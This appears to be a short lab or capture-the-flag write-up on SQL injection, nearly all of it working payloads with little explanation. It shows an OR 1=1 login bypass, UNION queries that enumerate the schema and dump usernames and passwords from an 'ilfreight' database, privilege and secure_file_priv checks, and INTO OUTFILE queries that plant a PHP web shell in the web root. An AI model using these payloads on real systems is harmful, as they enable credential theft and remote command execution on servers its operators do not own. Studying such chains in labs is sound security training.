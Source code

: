 [Web root dir in Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)


## file written successfully!
```sql!
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

### web shell
```shell！
<?php system($_REQUEST[0]); ?>
```

## Union Injection Payload
```sql!
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

---
## Writeup
First, I try the auth bypass with OR operator 
```sql!
' OR 1=1-- -

'UNION SELECT 1,DATABASE(),2,3,4-- -

' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='ilfreight'-- -

' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -

' UNION SELECT 1,username,password,4,5 FROM ilfreight.users-- 
```
---
```sql!
' UNION SELECT 1,super_priv,3,4,5 FROM mysql.user WHERE user="root"-- -

' UNION SELECT 1, variable_name, variable_value, 4,5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

' UNION SELECT 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- - 

' UNION SELECT 1,'<?php system($_REQUEST[0]); ?>',3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- -
```

![](https://hackmd.io/_uploads/rJuNVXQp2.png)


